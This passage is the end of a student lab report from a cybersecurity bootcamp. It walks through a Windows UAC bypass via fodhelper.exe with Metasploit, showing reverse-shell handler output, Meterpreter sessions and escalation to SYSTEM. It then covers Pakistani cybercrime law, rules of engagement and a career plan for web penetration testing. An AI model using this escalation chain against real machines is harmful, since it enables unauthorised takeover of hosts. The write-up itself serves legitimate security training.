

#### Exploitation Mechanics:
1. `fodhelper.exe` (Features On Demand Helper, located at `C:\Windows\System32\fodhelper.exe`) is a native Microsoft binary whose embedded application manifest specifies:
   ```xml
   <autoElevate>true</autoElevate>
   ```
2. When launched by any member of the local `Administrators` group, the Windows Application Information service (`Appinfo`) automatically grants it a **High Integrity Token without prompting the user with a UAC dialog**.
3. When `fodhelper.exe` starts, it looks up the registry key:
   `HKCU\Software\Classes\ms-settings\Shell\Open\command`
4. The exploit writes a command redirecting execution to Meterpreter's stager payload, then executes `fodhelper.exe`. Because the binary runs elevated, it executes our payload within a **High Integrity Process**.
5. Once triggered, the module cleans up the registry artifacts to minimize forensic footprints.

The exploit ran successfully, spawning **Meterpreter session 2**:

```text
[*] Started reverse TCP handler on 192.168.23.138:4433
[*] UAC is Enabled, checking level...
[+] Part of Administrators group! Continuing...
[+] UAC is set to Default
[+] BypassUAC can bypass this setting, continuing...
[*] Configuring payload and stager registry keys ...
[*] Executing payload: C:\Windows\Sysnative\cmd.exe /c C:\Windows\System32\fodhelper.exe
[*] Cleaning up registry keys ...
[*] Sending stage (176198 bytes) to 192.168.23.131
[*] Meterpreter session 2 opened (192.168.23.138:4433 -> 192.168.23.131:50263) at 2026-11-18 06:01:31 -0600
```



---

### 9. Phase 8 — Achieving Full `NT AUTHORITY\SYSTEM`

In Session 2, running in a High Integrity security context, `getuid` initially reports `DESKTOP-9NMD88A\musab`, but the process now possesses full administrative token privileges (including `SeDebugPrivilege` and `SeImpersonatePrivilege`).

Running `getsystem -t 1` now succeeds instantly via Named Pipe Impersonation:

```text
meterpreter > getuid
Server username: DESKTOP-9NMD88A\musab
meterpreter > getsystem -t 1
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```



The host was completely compromised, elevating from a downloaded standard user payload to the highest kernel privilege boundary (`NT AUTHORITY\SYSTEM`).

---

### 10. Legal, Ethical, and Scope Constraints (PECA 2016)

Executing client-side payloads, remote access tools, and privilege escalation techniques without explicit, verifiable legal authorization is a severe criminal offense. In Pakistan, cybersecurity activities are governed by the **Prevention of Electronic Crimes Act (PECA) 2016**.

#### Statutory Offenses and Penalties under PECA 2016:

| Section | Offense | Description | Maximum Penalties |
|---|---|---|---|
| **Section 3** | **Unauthorized Access to Information System or Data** | Accessing any part of an information system, computer, or data without authorization. | Up to **3 months imprisonment**, fine up to **50,000 PKR**, or both. |
| **Section 4** | **Unauthorized Copying or Transmission of Data** | Exfiltrating, downloading, or copying data from a system without authorization. | Up to **6 months imprisonment**, fine up to **100,000 PKR**, or both. |
| **Section 5** | **Interference with Information System or Data** | Altering, deleting, corrupting data, or generating payloads that disrupt or modify system functioning. | Up to **2 years imprisonment**, fine up to **500,000 PKR**, or both. |
| **Section 6** | **Unauthorized Access to Critical Infrastructure** | Unauthorized access to military, governmental, or critical national infrastructure data. | Up to **3 years imprisonment**, fine up to **1,000,000 PKR**, or both. |
| **Section 7** | **Unauthorized Copying/Transmission of Critical Data** | Exfiltrating or transferring sensitive critical infrastructure data. | Up to **5 years imprisonment**, fine up to **5,000,000 PKR**, or both. |
| **Section 8** | **Interference with Critical Infrastructure** | Deploying malware, ransomware, or payloads against national critical systems. | Up to **7 years imprisonment**, fine up to **10,000,000 PKR**, or both. |
| **Section 10** | **Cyber Terrorism** | Accessing or preparing computer programs to threaten public security, destabilize government institutions, or terrorize the public. | Up to **14 years imprisonment**, fine up to **50,000,000 PKR**, or both. |

#### Corporate Engagement Boundaries:
In legitimate penetration testing engagements, the practitioner is strictly shielded from criminal liability only when operating under a signed **Rules of Engagement (RoE)** contract and **Letter of Authorization (Get-Out-of-Jail-Free Card)** signed by corporate leadership:
* **Scope Definition:** Explicit list of target IP addresses, subnets, domain names, and excluded production assets.
* **Testing Window:** Designated hours during which attacks may be simulated.
* **Prohibited Techniques:** Absolute restriction against data destruction, denial of service (DoS), or testing non-consenting third-party dependencies.
* **Immediate Escalation Protocol:** If high-risk vulnerabilities (e.g., exposed domain credentials or remote code execution) are discovered, the tester must pause and notify the technical liaison immediately rather than escalating laterally beyond the agreed scope.

---

## Task C (30%) — Professional Career Statement & 90-Day Portfolio Plan

### Specialism Target: Web Application Penetration Testing & AppSec

**Career Objective:**  
My professional focus is directed toward **Web Application Penetration Testing and Application Security (AppSec)**. Web applications represent the single largest attack surface for enterprises globally, serving as the front door for sensitive corporate data, financial transactions, and user identity systems. By mastering web exploitation mechanics (OWASP Top 10, business logic flaws, API vulnerabilities, and authentication bypasses), combined with secure code analysis, my objective is to deliver deep-dive security assessments that identify architectural flaws before malicious adversaries can exploit them.

---

### Target Entry Credential

To validate my hands-on technical competence to employers and industry clients, my target certifications follow a structured progression:

1. **Primary Immediate Target:** **eWPT (Certified Web Penetration Tester - INE Security)**
   * *Rationale:* Unlike purely theoretical multiple-choice exams, eWPT consists of a 100% practical, dynamic web application assessment conducted against a live, hardened enterprise scenario. It evaluates deep understanding of SQL injection, Cross-Site Scripting (XSS), Cross-Site Request Forgery (CSRF), Server-Side Request Forgery (SSRF), file inclusion, and session hijacking.
2. **Secondary Complementary Credential:** **PortSwigger Certified Web Security Practitioner (BSCP)**
   * *Rationale:* Developed by the creators of Burp Suite, the BSCP exam requires solving multiple unseen real-world web exploitation challenges under tight timed conditions. Holding BSCP proves mastery of industry-standard tools (Burp Suite Professional) and cutting-edge web vulnerability classes.
3. **Foundational Milestone:** **eJPT (eLearnSecurity Junior Penetration Tester)**
   * *Rationale:* Serves as the baseline offensive credential covering network pivoting, host enumeration, and practical methodology before advancing toward senior offensive certifications such as **OSCP (Offensive Security Certified Professional)** and **OSWE (Offensive Security Web Expert)**.

---

### 3-Month Actionable Portfolio Development Plan

To build a competitive, evidence-backed GitHub portfolio and transition into an **Associate Penetration Tester / Junior AppSec Specialist** role, the following 90-day milestone roadmap will be executed:

```
[Month 1: Technical Foundations] ───► [Month 2: Bug Bounty & CTFs] ───► [Month 3: Portfolio & Tooling]
  • OWASP Top 10 Lab Mastery            • HTB / TryHackMe Web Paths       • GitHub Automation Repos
  • PortSwigger Academy (Apprentice)    • Public VDP Testing              • Full Professional Sample Reports
  • Custom Python Fuzzing Scripts       • 3 Detailed Vulnerability PoCs   • Industry Networking & Applications
```

#### Month 1: Core Web Mechanics, Lab Mastery & Scripting
* **Milestones:**
  * Complete 100% of the **PortSwigger Web Security Academy Apprentice** and 50% of the **Practitioner** labs, with detailed notes on SQLi, XSS, CSRF, and authentication bypasses.
  * Build a local vulnerable laboratory environment using Docker (`vulnerables/web-dvwa`, `bWAPP`, and `OWASP Juice Shop`) to practice manual interception and exploitation without automated scanners.
  * Develop custom Python automation scripts: a multi-threaded directory brute-forcer (incorporating custom headers and wordlist filtering) and an automated HTTP header security analyzer.
* **Deliverable:** Publish a GitHub repository titled `web-security-mechanics` containing lab solutions, methodology flowcharts, and well-commented Python reconnaissance utilities.

#### Month 2: Public CTF Platforms, Methodology & Vulnerability Disclosure
* **Milestones:**
  * Complete the **Web Fundamentals** and **Offensive Pentesting** learning paths on TryHackMe, and solve 15 web-centric machines on Hack The Box (e.g., active machines featuring SSTI, deserialization, and IDOR).
  * Participate in public, non-bounty **Vulnerability Disclosure Programs (VDPs)** via HackerOne or Bugcrowd to experience real-world web applications within authorized scopes.
  * Write three comprehensive, professional-grade technical vulnerability write-ups documenting real-world vulnerability chains (identifying root cause, CWE mapping, CVSS scoring, proof-of-concept payload, and developer remediation code).
* **Deliverable:** Publish the technical write-ups on a technical blog (Medium / GitHub Pages) demonstrating analytical reporting and professional communication skills.

#### Month 3: Portfolio Packaging, Mock Assessments & Industry Readiness
* **Milestones:**
  * Conduct a mock, end-to-end Web Application Penetration Test against a multi-tier target (e.g., OWASP Juice Shop or a custom full-stack microservice app).
  * Author a full 25-page, client-ready **Vulnerability Assessment & Penetration Testing (VAPT) Report** containing executive summaries, risk matrices, reproducible technical findings, and verified code-level remediations.
  * Polish all public GitHub repositories with professional documentation, clear MIT licenses, and architectural diagrams.
  * Register for the **eWPT** or **BSCP** practical examination, engage with local cybersecurity communities (OWASP Islamabad Chapter, DEF CON Groups), and apply for Junior Web Penetration Tester / SOC Tier-1 / Security Analyst positions.
* **Deliverable:** A complete, recruiter-facing portfolio site linking to verified repositories, certification credentials, and published technical research.

---

## Deliverables & Git Evidence Log

All artifacts, screenshots, and technical write-ups are organized in the repository under:
* **Directory:** `s08-client-side/`
* **Screenshots Directory:** `s08-client-side/screenshots/`
* **Evidence Inventory:**
  * `01-win11-ipconfig-ping.jpg`: Windows 11 target IP and ICMP ping to Kali listener.
  * `02-win11-defender-off.jpg`: Windows Defender disabled in lab VM.
  * `03-kali-ip-show.png`: Kali Linux `eth0` network configuration (`192.168.23.138`).
  * `04-msfvenom-payload.png`: Payload creation via `msfvenom` targeting `LHOST=192.168.23.138:4433`.
  * `05-handler-listening.jpg`: Metasploit `multi/handler` active listener.
  * `06-python-http-server.png`: Python HTTP staging server delivering `win.exe`.
  * `07-meterpreter-session1-getuid.png`: Meterpreter session 1 opened as standard user `musab`.
  * `08-getsystem-failed-uac.png`: Execution of `getsystem` blocked by UAC token restriction.
  * `09-session-background.png`: Backgrounding session 1 and verifying session table.
  * `10-search-bypassuac.png`: Searching for UAC bypass modules in Metasploit.
  * `11-bypassuac-config.png`: Configuring `exploit/windows/local/bypassuac_fodhelper`.
  * `12-bypassuac-session2-opened.png`: Elevated Meterpreter session 2 opened via `fodhelper.exe`.
  * `13-getsystem-success-system.png`: Execution of `getsystem -t 1` gaining `NT AUTHORITY\SYSTEM`.

---
*End of Report — Atomcamp Digital Forensics & Cyber Security Bootcamp (Day 4 Deliverable)*
